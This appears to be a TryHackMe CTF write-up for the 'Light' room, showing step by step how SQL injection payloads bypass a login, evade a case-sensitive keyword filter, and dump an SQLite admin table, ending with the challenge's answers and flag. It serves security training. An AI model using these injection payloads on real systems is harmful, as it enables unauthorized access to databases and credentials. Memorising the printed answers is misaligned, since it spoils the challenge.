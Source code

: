 ```yaml
---
title: "TryHackMe Light Writeup"
date: 2025-02-02
categories: [TryHackMe]
tags: [SQL Injection, SQLite, database, CTF, Cybersecurity, TryHackMe, Writeup, Walkthrough]
description: My write up for Light Room on TryHackMe.
image:
  path: /assets/img/posts/2025-02-02-THM-Light/cover.png
---
```


# Light - CTF

## Target Information
- **IP Address**: `10.10.15.185`
- **Connection Command:**
```bash
nc 10.10.15.185 1337
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc 10.10.15.185 1337
Welcome to the Light database!
Please enter your username:
```

## Credentials
- **Username**: smokey

---

## Enumeration

Upon connecting to the service, I try input a username that's giving:

```bash
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

### SQL Injection Testing
I attempted common SQL injection techniques. The input `' or '1'='1` successfully bypassed authentication and provided a different password:

```bash
Please enter your username: ' or '1'='1
Password: tF8tj2o94WE4LKC
```

Testing with a single quote (`'`) triggered an error message:

```bash
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

This error suggested the backend was using SQLite. Searching online, I found a StackOverflow post confirming this error is SQLite-related. This led me to reference SQLite-specific injection techniques from the [PayloadsAllTheThings SQLite Injection guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).

### Extracting Database Structure
Since SQLite supports querying database metadata via `sqlite_master`, I attempted to list database tables using:

```bash
Please enter your username: ' UNION SELECT sql FROM sqlite_master '
```

However, a filter was in place:

```bash
Ahh there is a word in there I don't like :(
```

I tested if the filter was case-sensitive:

```bash
Please enter your username: union
Ahh there is a word in there I don't like :(
```

However, using a capitalized version bypassed the filter:

```bash
Please enter your username: Union
Username not found.
```

The same worked for `SELECT`:

```bash
Please enter your username: select
Ahh there is a word in there I don't like :(
```
```bash
Please enter your username: Select
Username not found.
```

Using this technique, I successfully retrieved the database structure:

```bash
Please enter your username: ' Union Select sql FROM sqlite_master '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

This revealed a table named `admintable` with columns `id`, `username`, and `password`.

### Extracting Admin Credentials
To retrieve the admin username, I queried `id=1`:

```bash
Please enter your username: ' Union Select username FROM admintable WHERE id=1 or '
Password: TryHackMeAdmin
```

#### Answer to Question 1:
**What is the admin username?:** `TryHackMeAdmin`

Next, I extracted the admin password:

```bash
Please enter your username: ' Union Select password FROM admintable WHERE id=1 or '
Password: mamZtAuMlrsEy5bp6q17
```

#### Answer to Question 2:
**What is the password to the username mentioned in question 1?:** `mamZtAuMlrsEy5bp6q17`

### Extracting the Flag
To check for additional users, I queried `id=2`:

```bash
Please enter your username: ' Union Select username FROM admintable WHERE id=2 or '       
Password: flag
```

Since this was likely the flag, I retrieved the corresponding password:

```bash
Please enter your username: ' Union Select password FROM admintable WHERE id=2 or '
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

#### Answer to Question 3:
**What is the flag?:** `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---
